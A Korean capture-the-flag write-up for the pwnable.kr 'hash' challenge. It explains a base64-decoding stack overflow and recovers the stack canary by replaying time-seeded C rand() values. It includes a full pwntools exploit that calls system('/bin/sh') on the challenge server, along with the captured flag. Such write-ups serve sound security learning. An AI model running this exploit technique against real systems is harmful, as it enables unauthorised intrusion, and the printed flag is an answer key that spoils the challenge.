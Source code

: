 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-52-43.png)


# **Write-Up**

파일 정보를 확인해보면, 32bit에 PIE는 적용되어 있지 않다.

```sh
root@ubuntu:~/pwn# checksec --file=./hash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   103) Symbols      No    0               3               ../hash
root@ubuntu:~/pwn# file ./hash
../hash: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=89ebf47881a82f5a991199ae381f8284a46e0500, not stripped
```

libcrypto.so.1.0.0 공유 라이브러리가 필요할 듯 하다.

```sh
root@ubuntu:~/pwn# ldd hash
        linux-gate.so.1 (0xf7f34000)
        libcrypto.so.1.0.0 => not found
        libm.so.6 => /lib/i386-linux-gnu/libm.so.6 (0xf7e23000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c34000)
        /lib/ld-linux.so.2 (0xf7f35000)
openssl 1.0.0버전을 설치하자.
```

> [OpenSSL](https://www.openssl.org/source/old/1.0.0/)

```sh
root@ubuntu:~/pwn# tar -zxf openssl-1.0.0s.tar.gz
root@ubuntu:~/pwn# cd openssl-1.0.0s/
root@ubuntu:~/pwn/openssl-1.0.0s# apt -y install make gcc gcc-multilib
root@ubuntu:~/pwn/openssl-1.0.0s# ./Configure -m32 linux-generic32 shared
root@ubuntu:~/pwn/openssl-1.0.0s# make
root@ubuntu:~/pwn/openssl-1.0.0s# make install
root@ubuntu:~/pwn/openssl-1.0.0s# cp /usr/local/ssl/lib/libcrypto.so.1.0.0 /lib32/
```

이제 hash를 실행해보면 captcha를 입력한 후 base64로 인코딩된 데이터를 입력하면 MD5데이터를 준다고 한다.

하지만, 데이터의 MD5값과는 다르다.

```sh
root@ubuntu:~/pwn# ./hash
./hash: /lib32/libcrypto.so.1.0.0: no version information available (required by ./hash)
- Welcome to the free MD5 calculating service -
Are you human? input captcha : 1169833528
1169833528
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
YWRtaW4=
MD5(data) : 5207500f6ec8592462ccff95f10823f3
Thank you for using our service.
```

우선 취약한 점을 보면 base64를 입력받는 버퍼(g_buf)는 0x400만큼 받지만, base64 decoding의 결과가 저장되는 버퍼(v3)는 0x200만큼 잡는다.

![](images/2022-01-04-16-57-18.png)

즉, BoF가 터지지만, 이때 canary를 알아내지 못한다면, stack smashing이 일어나 소용이 없을 것이다.

canary는 my_hash라는 함수에서 여러 변수와 연산을 통해서 captcha라는 값으로 나온다.

![](images/2022-01-04-16-57-27.png)

즉, captcha에서 -v6 + v8 -v9 -v4 +v5 -v3 -v7을 하면 canary임을 알 수가 있다.

![](images/2022-01-04-16-57-34.png)

Python의 rand함수와 C의 rand함수는 로직이 다르다고 한다. 따라서 ctypes라이브러리를 이용하여 C언어의 rand함수를 호출하고 다음과 같이 canary를 계산한다.

* 왜 8번 호출하는지는 모르겠고, 왜 index 1번부터 rand값을 사용하는 지 모르겠다.

```python
from ctypes import *
from ctypes.util import find_library

c = CDLL(find_library('c'))
c.srand(c.time(0))
rand = [c.rand() for i in range(8)]
... captcha 받고 ...
canary = int(captcha) - rand[4] + rand[6] - rand[7] - rand[2] + rand[3] - rand[1] - rand[5]
canary = canary & 0xffffffff # canary는 unsigned int형인듯하다.
```

canary를 검사하는 곳은 ebp - 0xC부분이다. 따라서 payload는 다음과 같다.

    1. dummy * 0x200
    2. canary
    3. dummy * 0xC (pop ebx, pop edi, pop ebp)
    4. system address (retn)
    5. dummy * 0x04 (???)
    6. g_buf + payload 길이 + 4 (base64로된 g_buf 시작 주소로부터 /bin/sh까지 크기)
    7. /bin/sh

exploit 코드를 작성하자. time은 약간의 오차가 있을 수 있으므로, statck smashing이 일어난다면 재시도하자.

```python
from pwn import *
from ctypes import *
from ctypes.util import find_library
import base64

c = CDLL(find_library('c'))
c.srand(c.time(0))
rand = [c.rand() for i in range(8)]

r = remote('pwnable.kr', 9002)
e = ELF('./hash')

r.recvuntil('captcha : ')
captcha = r.recvline().decode().strip()
r.sendline(captcha)
canary = int(captcha) - rand[4] + rand[6] - rand[7] - rand[2] + rand[3] - rand[1] - rand[5]
canary = canary & 0xffffffff

payload = b''
payload += b'A' * 0x200
payload += p32(canary)
payload += b'A' * 0x0C
payload += p32(e.plt['system'])
payload += b'A' * 0x04
payload += p32(0x0804B0E0 + len(base64.b64encode(payload)) + 4)

r.sendline(base64.b64encode(payload) + b'/bin/sh\x00')
r.interactive()

[Output]
... 생략 ...
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
```


# **FLAG**

**Canary, Stack guard, Stack protector.. what is the correct expression?**